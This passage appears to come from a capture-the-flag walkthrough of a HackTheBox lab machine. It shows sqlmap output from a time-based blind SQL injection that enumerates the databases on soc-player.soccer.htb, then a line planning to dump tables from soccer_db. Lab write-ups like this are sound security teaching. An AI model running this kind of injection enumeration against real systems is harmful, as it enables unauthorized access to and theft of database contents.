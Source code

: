 ```bash
[19:58:38] [INFO] confirming MySQL
[19:58:38] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 8.0.0
[19:58:38] [INFO] fetching database names
[19:58:38] [INFO] fetching number of databases
[19:58:38] [INFO] resumed: 5
[19:58:38] [INFO] retrieving the length of query output
[19:58:38] [INFO] retrieved: 
[19:58:38] [INFO] retrieved: 
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[19:58:39] [INFO] resumed: mysql
[19:58:39] [INFO] retrieving the length of query output
[19:58:39] [INFO] retrieved: 
[19:58:39] [INFO] retrieved: 
[19:58:39] [INFO] resumed: information_schema
[19:58:39] [INFO] retrieving the length of query output
[19:58:39] [INFO] retrieved: 
[19:58:39] [INFO] retrieved: 
[19:58:40] [INFO] resuming partial value: perf
[19:58:40] [INFO] retrieved: 
[19:58:40] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[19:58:56] [INFO] adjusting time delay to 1 second due to good response times
ormanc
[19:59:21] [ERROR] invalid character detected. retrying..
[19:59:21] [WARNING] increasing time delay to 2 seconds
e_schema
[20:00:19] [INFO] retrieving the length of query output
[20:00:19] [INFO] retrieved: 
[20:00:20] [INFO] retrieved: 
[20:00:20] [INFO] retrieved: sys
[20:00:44] [INFO] retrieving the length of query output
[20:00:44] [INFO] retrieved: 
[20:00:44] [INFO] retrieved: 
[20:00:44] [INFO] retrieved: soccer_db
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys

[20:01:55] [INFO] fetched data logged to text files under '/home/emvee/.local/share/sqlmap/output/soc-player.soccer.htb'
[20:01:55] [WARNING] your sqlmap version is outdated

[*] ending @ 20:01:55 /2024-03-08/

```
We have found some database names. We should focus on `soccer_db` since the website is all about soccer. Since we have a database name we should now try to identify tables in the database.
